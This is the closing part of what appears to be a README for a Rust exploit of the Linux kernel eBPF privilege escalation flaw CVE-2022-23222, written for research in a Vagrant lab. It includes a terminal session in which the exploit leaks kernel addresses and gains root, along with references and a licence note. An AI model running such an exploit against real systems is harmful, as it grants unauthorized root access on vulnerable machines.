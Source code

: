 With vagrant installed, simply run the following commands. By default, the vagrant
configuration will copy this folder to `/exploit` using `rsync`. You can modify the
`Vagrantfile` to suit your local environment, should you so choose.

```
❯ cd lab
❯ vagrant up && vagrant ssh
Bringing machine 'default' up with 'libvirt' provider...
#
# ... omitted for space ...
#
==> default: Running provisioner: shell...
    default: Running: inline script
    default: kernel.unprivileged_bpf_disabled = 0
vagrant@ubuntu2110:~$ /exploit/target/release/cve_2022_23222 
[D] DEBUG: array_map @ 0xffff8aecb303c000
[D] DEBUG: task struct ~ 0xffff8aecb3408ae8
[D] DEBUG: cred @ 0xffff8aec8c0b36c0
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=0(root),1000(vagrant)
# exit 
vagrant@ubuntu2110:~$ 
logout
```

## References

 - [https://github.com/tr3ee/CVE-2022-23222](https://github.com/tr3ee/CVE-2022-23222)
 - [https://tr3e.ee/posts/cve-2022-23222-linux-kernel-ebpf-lpe.txt](https://tr3e.ee/posts/cve-2022-23222-linux-kernel-ebpf-lpe.txt)
 - [https://www.openwall.com/lists/oss-security/2022/01/18/2](https://www.openwall.com/lists/oss-security/2022/01/18/2)

## License

All of my code is released under the MIT license. The original author did not include a license file,
but said it was for "educational and research purposes only." Creating this was both educational, and for
research, so I think this counts. Consider the code under `src/exploit/` to have the same "for educational
and research purposes only" license. Whatever that means.
